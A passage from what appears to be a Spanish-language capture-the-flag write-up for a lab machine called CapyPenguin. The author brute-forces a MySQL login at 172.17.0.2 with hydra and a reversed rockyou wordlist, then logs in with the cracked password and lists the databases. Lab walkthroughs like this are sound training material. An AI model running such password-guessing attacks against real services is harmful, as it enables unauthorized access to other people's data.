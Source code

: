 Los elimino para comprobar si ese era el fallo.

![Capypenguin 3](/assets/images/2024-05-29-CapyPenguin/capypenguin_4.png)

Debo reiniciar la máquina debido al baneo, pero cuando vuelvo a ejecutar hydra logro obtener la contraseña de **capybarauser**.

```shell
hydra -l capybarauser -P rockyouinverso.txt mysql://172.17.0.2                                                                                     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-29 13:59:40
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344397 login tries (l:1/p:14344397), ~3586100 tries per task
[DATA] attacking mysql://172.17.0.2:3306/
[3306][mysql] host: 172.17.0.2   login: capybarauser   password: ie168
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-29 13:59:41
```

Accedo a MYSQL.

```shell
mysql -h 172.17.0.2 -u capybarauser -pie168                                                                                                         
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 41
Server version: 10.6.16-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Me llama la atención una base de datos llamada "pinguinasio_db".

```shell
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| pinguinasio_db     |
| sys                |
+--------------------+
5 rows in set (0.001 sec)
```
